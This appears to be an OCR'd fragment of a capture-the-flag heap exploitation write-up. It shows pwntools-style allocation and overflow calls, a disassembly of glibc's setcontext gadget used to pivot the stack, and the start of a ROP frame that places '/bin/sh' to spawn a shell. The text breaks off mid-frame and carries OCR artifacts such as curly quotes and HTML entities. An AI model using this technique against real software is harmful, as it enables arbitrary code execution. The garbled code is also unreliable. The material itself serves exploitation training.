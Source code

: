 ​

add(0x108)

add(0x108) # overflow

add(0x108)

add(0x108)

edit(1, flat(0x21) * 33)

edit(2, flat(0x21) * 33)

edit(3, flat(0x21) * 33)

add(0x200)

​

”’

=&gt; 0x7f279760a0a5 &lt;setcontext+53&gt;:  mov    rsp,QWORD PTR [rdi+0xa0]

   0x7f279760a0ac &lt;setcontext+60&gt;:  mov    rbx,QWORD PTR [rdi+0x80]

   0x7f279760a0b3 &lt;setcontext+67&gt;:  mov    rbp,QWORD PTR [rdi+0x78]

   0x7f279760a0b7 &lt;setcontext+71&gt;:  mov    r12,QWORD PTR [rdi+0x48]

   0x7f279760a0bb &lt;setcontext+75&gt;:  mov    r13,QWORD PTR [rdi+0x50]

   0x7f279760a0bf &lt;setcontext+79&gt;:  mov    r14,QWORD PTR [rdi+0x58]

   0x7f279760a0c3 &lt;setcontext+83&gt;:  mov    r15,QWORD PTR [rdi+0x60]

   0x7f279760a0c7 &lt;setcontext+87&gt;:  mov    rcx,QWORD PTR [rdi+0xa8]

   0x7f279760a0ce &lt;setcontext+94&gt;:  push   rcx

   0x7f279760a0cf &lt;setcontext+95&gt;:  mov    rsi,QWORD PTR [rdi+0x70]

   0x7f279760a0d3 &lt;setcontext+99&gt;:  mov    rdx,QWORD PTR [rdi+0x88]

   0x7f279760a0da &lt;setcontext+106&gt;: mov    rcx,QWORD PTR [rdi+0x98]

   0x7f279760a0e1 &lt;setcontext+113&gt;: mov    r8,QWORD PTR [rdi+0x28]

   0x7f279760a0e5 &lt;setcontext+117&gt;: mov    r9,QWORD PTR [rdi+0x30]

   0x7f279760a0e9 &lt;setcontext+121&gt;: mov    rdi,QWORD PTR [rdi+0x68]

   0x7f279760a0ed &lt;setcontext+125&gt;: xor    eax,eax

   0x7f279760a0ef &lt;setcontext+127&gt;: ret

”’

rop = flat(

        `{`

            0x00: “/bin/sh\x00”,

            0xa0: heap + 0x800 + 0xa8, # rsp
